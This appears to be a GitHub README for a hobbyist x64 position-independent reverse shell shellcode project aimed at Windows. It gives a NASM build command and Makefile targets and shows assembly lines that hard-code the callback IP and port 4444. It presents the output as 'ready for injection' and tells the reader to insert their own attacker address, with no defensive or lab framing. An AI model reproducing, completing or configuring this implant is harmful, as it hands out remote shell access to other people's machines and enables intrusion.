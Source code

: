 # 🚀 x64 PIC Reverse Shell (BETA AF)

A **position-independent** reverse shell shellcode i put together for x64 systems. It works (tested on Windows 10), I built this while sleep deprived and it's definitely a rough draft but expect cleaner code/docs soon.
---

### 🔥 Features (Kinda)
- Connects back to your IP/port for a shell
- PIC = Works anywhere in memory (in theory)
- Raw binary output ready for injection
---

## 👾 How to Build This Thing

**You’ll need:**
- A windows pc
- NASM installed
---

### Makefile Commands:
- `make all`: Compiles the source into a binary shellcode (`main.bin`).
- `make clean`: Deletes the compiled binary.

### Manual Build:
If you don’t want to use `make`, just do this:
```bash
nasm -f bin -g -O0 -o C:\Users\win10\Desktop\pic_implant\bin\main.bin src\main.asm
```

**Steps:**
1. **Edit `src/main.asm`**  
   Find these lines and replace with your IP/port:
   ```asm
       db "192.168.8.128", 0
       mov word [rsp+2], 0x5C11       ; ← 4444 (change this too)
   ```
